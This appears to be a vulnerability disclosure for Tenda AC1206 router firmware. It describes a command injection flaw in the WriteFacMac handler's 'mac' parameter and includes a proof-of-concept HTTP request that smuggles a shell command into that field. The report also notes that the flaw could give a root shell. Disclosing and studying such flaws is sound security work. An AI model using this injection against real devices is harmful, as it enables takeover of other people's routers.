


#  Tenda AC1206 (V15.03.06.23) has an command injection vulnerability

## Overview

- Manufacturer's website information：https://www.tenda.com.cn
- Firmware download address ： https://www.tenda.com.cn/download/detail-2766.html

### Product Information

Tenda AC1206 V15.03.06.23, the latest version of simulation overview：



## Vulnerability details

The Tenda AC1206 (V15.03.06.23) was found to contain a command insertion vulnerability in formWriteFacMac.This vulnerability allows an attacker to execute arbitrary commands through the "mac" parameter.


The `mac`(the value of `mac`) we entered  will be passed into the `doSystemCmd` function as a parameter.


The `doSystemCmd` function is finally found to be implemented in this file by string matching.


Reverse analysis found that the function was called directly through the system function, which has a command injection vulnerability.

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```
GET /goform/WriteFacMac?mac=;echo%20you%20pwn%20it 
Host: 192.168.37.137
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:96.0) Gecko/20100101 Firefox/96.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Cookie: password=caw5gk
Upgrade-Insecure-Requests: 1
```



The above diagram shows that the command has been executed successfully.


Finally, you also can write exp to get a stable root shell.

